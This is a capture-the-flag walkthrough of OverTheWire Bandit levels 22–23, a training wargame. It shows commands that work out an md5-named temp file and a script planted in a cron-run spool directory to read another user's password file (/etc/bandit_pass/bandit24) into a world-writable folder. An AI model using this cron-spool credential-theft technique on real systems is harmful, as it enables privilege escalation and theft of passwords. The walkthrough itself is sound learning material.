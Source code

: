 line 14: `myname=$(whoami)` sets myname to our name. Go ahead and do a `whoami`. It returns who we are logged in as bandit22.

line 15:`mytarget=$(echo I am user $myname | md5sum | cut -d ‘ ‘ -f 1)` looks like the command that is run during this script where `$myname` is set to bandit22 and we know we want bandit23 password. Let’s take that part of the script and replace the `$myname` part with bandit23 instead of letting the script set it to our current uid. 

```bash
bandit22@bandit:~$ echo I am user bandit23 | md5sum | cut -d ' ' -f 1
8ca319486bfbbc3663ea0fbe81326349
bandit22@bandit:~$ cat /tmp/8ca319486bfbbc3663ea0fbe81326349
```

### Level 23

> A program is running automatically at regular intervals from **cron**, the time-based job scheduler. Look in **/etc/cron.d/** for the configuration and see what command is being executed.  
> Useful cmd: cron, crontab, crontab\(5\) \(use “man 5 crontab” to access this\)
>
> **NOTE:** This level requires you to create your own first shell-script. This is a very big step and you should be proud of yourself when you beat this level!
>
> **NOTE 2:** Keep in mind that your shell script is removed once executed, so you may want to keep a copy around…

```bash
bandit23@bandit:~$ cd /etc/cron.d
bandit23@bandit:/etc/cron.d$ ls
atop  cronjob_bandit22  cronjob_bandit23  cronjob_bandit24
# i remembered where the script was
bandit23@bandit:/etc/cron.d$ cat /usr/bin/cronjob_bandit24.sh
#!/bin/bash

myname=$(whoami)

cd /var/spool/$myname
echo "Executing and deleting all scripts in /var/spool/$myname:"
# for all files in directory
for i in * .*;
do
    # if file is not "." and file is not ".."
    if [ "$i" != "." -a "$i" != ".." ];
    then
        echo "Handling $i"
        # execute script for 60 seconds then end with signal SIGKILL (aka 9)
        timeout -s 9 60 ./$i
        # remove file forcefully
        rm -f ./$i
    fi
done
```

1. Bandit24's account has a cron job that executes all files within /var/spool/bandit24 and then deletes the file. So what needs to be done is create a script that, when bandit24 runs it, it will copy bandit24's password file into a specified location that we, bandit23, can access. First create your own folder in /tmp to store your own script.  `mkdir /tmp/tokumei` `chmod 777 /tmp/tokumei` to allow bandit24 access
2. Write your own script using vim and save it in that directory and also change permission on it. `#!/bin/bash cat /etc/bandit_pass/bandit24 >> /tmp/tokumei/key`  The script, named copy.sh, will output bandit24 password to  a file called key and append if it exists. _I tried using /etc/bandit\_pass/$\(whoami\) in the scipt but it did not work. Have not figured out why._
3. Copy copy.sh to bandit24's folder of cronjobs and wait for at least 1 minute and a key file will appear in tokumei's folder. `chmod 777 copy.sh  #change permission access cp copy.sh /var/spool/bandit24/ ls -l /var/spool/bandit24/copy  #to verify if copied`
